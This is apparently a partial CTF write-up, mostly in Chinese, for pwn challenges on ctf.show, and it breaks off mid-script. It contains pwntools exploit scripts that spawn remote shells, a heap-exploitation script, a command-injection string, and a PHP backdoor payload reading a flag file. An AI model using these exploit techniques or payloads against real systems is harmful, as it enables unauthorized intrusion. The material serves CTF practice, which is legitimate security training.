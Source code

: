 ```py
```
## PWN
### checkin
```
from pwn import *


p = remote("pwn.challenge.ctf.show", 28153)
p.send(p64(0xffffffffff600400) * 30 + b'\x13')
p.sendafter(b'wtf?', b'sh\x00')
p.interactive()
```
### Findyourgirlfriend
1
read PAT""H;s""h
/bin
### php
有后门就不pwn了（快去玩N1的php-master鸭！）  
func=PHP_PRINIT_FUNCTION&param=cat%20/secretFlag.txt
### 堆
单链表，每个bins独立shadowkey  
type|key|next  
FIFO  
[0x20] [0x40] [0x80] [0x100]  

强烈谴责不给dockerfile的pwn  
ubuntu 22和20的mmap行为是不一样的（主要是ASLR的特点不一样）  
本地出了很久远程打不通...想是不是出题人还在用20的ubuntu结果去20调打远程一发通了

```py
from pwn import *

libc = ELF("./libc.so.6")

for ty in range(16):
    # p = process(["./ld-linux-x86-64.so.2", "./pwn"], env={"LD_PRELOAD": libc.path})
    p = remote("pwn.challenge.ctf.show", 28185)
    try:
        def add(_index, _size, _content):
            p.sendlineafter(b'>> ', b'1')
            p.sendlineafter(b':', str(_index).encode())
            p.sendlineafter(b':', str(_size).encode())
            p.sendafter(b':', _content)


        def show(_index):
            p.sendlineafter(b'>> ', b'2')
            p.sendlineafter(b':\n', str(_index).encode())
            return p.recvline()[:-1]


        def delete(_index):
            p.sendlineafter(b'>> ', b'3')
            p.sendlineafter(b':', str(_index).encode())

        add(6, 0x20, b'/bin/ls;cat c*\x00')

        add(0, 0x40, b'A' * (0x40 - 16))
        add(1, 0x40, b'B' * (0x40 - 16))
        add(4, 0x40, b'X')
        delete(4)
```